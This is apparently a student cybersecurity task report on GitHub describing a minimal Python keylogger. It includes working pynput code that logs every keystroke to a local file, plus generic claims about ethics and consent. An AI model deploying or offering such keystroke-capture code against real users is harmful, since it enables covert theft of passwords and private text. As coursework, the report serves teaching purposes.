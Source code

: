 # PRODIGY_CS_Task-04

# Project Title: Simple Keylogger Development

__Author:__ Berlin Shaju Bellarmin

__Date:__ 12/05/2024

# Introduction:

The Simple Keylogger Development project aimed to create a basic keylogger program that records and logs keystrokes. This report provides an overview of the project, including its objectives, implementation process, and outcomes.

# Project Overview:
The keylogger project focused on developing a program capable of capturing keystrokes in real-time and saving them to a file for analysis. 

The primary objectives were:

Develop functionality to capture keystrokes using Python.

Implement a mechanism to store the captured keystrokes in a file.

Ensure ethical considerations and permissions are addressed for keylogger usage.

# Implementation Process:

# 1. Research and Planning:

Conducted research on keylogger implementation techniques, Python libraries, and ethical considerations.
Developed a plan outlining project objectives, requirements, and timeline.

# 2. Coding:

Utilized the pynput library in Python to capture keyboard input.
Implemented a function to write captured keystrokes to a file named keylog.txt.

# 3. Testing and Debugging:

Conducted thorough testing to validate the functionality and reliability of the keylogger.
Addressed any bugs or issues encountered during testing.

# 4. Documentation:

Documented the code implementation, including function descriptions, usage instructions, and ethical considerations.
Prepared a comprehensive report summarizing the project details and outcomes.

# Code Implementation:

```
from pynput.keyboard import Key, Listener

# Define the function to write keystrokes to a file
def on_press(key):
    with open("keylog.txt", "a") as f:
        f.write(str(key) + "\n")

# Create a listener instance
with Listener(on_press=on_press) as listener:
    listener.join()
```
    
# Description:

The code utilizes the __pynput__ library to capture keyboard input.

The __on_press__ function writes captured keystrokes to a file named __keylog.txt__.

A listener instance continuously monitors keyboard events.

__Ethical Considerations:__

Prioritized ethical considerations throughout the development process.
Ensured users were informed about the keylogger's usage and obtained necessary permissions.
Respected user privacy and data protection regulations.

__Outcome:__

The keylogger project was successfully completed, meeting all specified objectives. The program effectively captures and logs keystrokes, providing valuable insights into user activity. Ethical considerations were prioritized, ensuring compliance with relevant guidelines and regulations.

# Conclusion:

The Simple Keylogger Development project provided an opportunity to delve into keylogger implementation techniques and ethical considerations in cybersecurity. The project's successful completion demonstrates the ability to apply theoretical knowledge to practical problem-solving scenarios. Moving forward, I am eager to explore more cybersecurity projects and contribute to the field's advancements.
